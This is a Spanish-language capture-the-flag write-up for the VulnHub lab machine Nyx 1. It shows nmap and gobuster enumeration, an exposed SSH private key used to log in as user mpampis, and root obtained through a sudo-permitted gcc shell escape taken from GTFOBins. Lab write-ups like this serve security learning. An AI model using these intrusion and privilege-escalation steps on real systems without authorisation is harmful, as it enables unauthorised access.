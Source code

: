```yaml
---
title: Nyx 1
published: true
---
```


---

[nyx-1](@https://www.vulnhub.com/entry/nyx-1,535/)

## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
nmap 192.168.1.38
Starting Nmap 7.92
Nmap scan report for 192.168.1.38
Host is up (0.0012s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

* 22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
* 80/tcp open http Apache httpd 2.4.38 ((Debian))

El puerto 80 muestra la siguiente web:

![](https://eidd3.github.io/assets/img/Nyx1/Untitled.png)

Empiezo enumerando la web con Gobuster.

```bash
gobuster dir -u http://192.168.1.38/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://192.168.1.38/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/02/11 20:23:48 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
                                               
===============================================================
Finished
===============================================================
```

No reporta nada interesante, por lo que sigo enumerando con el script http.enum de nmap.

```bash
nmap --script http-enum -p 80 192.168.1.38
Nmap scan report for 192.168.1.38
Host is up (0.00067s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /d41d8cd98f00b204e9800998ecf8427e.php: Seagate BlackArmorNAS 110/220/440 Administrator Password Reset Vulnerability
```

![](https://eidd3.github.io/assets/img/Nyx1/Untitled1.png)

La ruta muestra una clave de SSH que parece ser de mpampis por el título de la página. La guardo como id_rsa y dándole permisos a esta clave privada me puedo conectar como mpampis al servicio ssh sin la contraseña del usuario.

```bash
❯ ls -l
.rw------- eddie eddie 1.8 KB Sat Feb 11 20:42:11 2023  id_rsa
❯ ssh -i id_rsa mpampis@192.168.1.38
Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
███▄▄▄▄   ▄██   ▄   ▀████    ▐████▀ 
███▀▀▀██▄ ███   ██▄   ███▌   ████▀  
███   ███ ███▄▄▄███    ███  ▐███    
███   ███ ▀▀▀▀▀▀███    ▀███▄███▀    
███   ███ ▄██   ███    ████▀██▄     
███   ███ ███   ███   ▐███  ▀███    
███   ███ ███   ███  ▄███     ███▄  
 ▀█   █▀   ▀█████▀  ████       ███▄ 
Last login: Sat Feb 11 17:50:00 2023 from 192.168.1.24
mpampis@nyx:~$ whoami
mpampis
mpampis@nyx:~$
```

## Elevando Privilegios

Con sudo -l listo los comandos permitidos para el usuario.

```bash
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
```

Se puede ejecutar como root gcc, con una búsqueda del binario en https://gtfobins.github.io/ nos da un comando para obtener una shell.

![](https://eidd3.github.io/assets/img/Nyx1/Untitled2.png)

```bash
mpampis@nyx:~$ whoami
mpampis
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# hostname
nyx
#
```
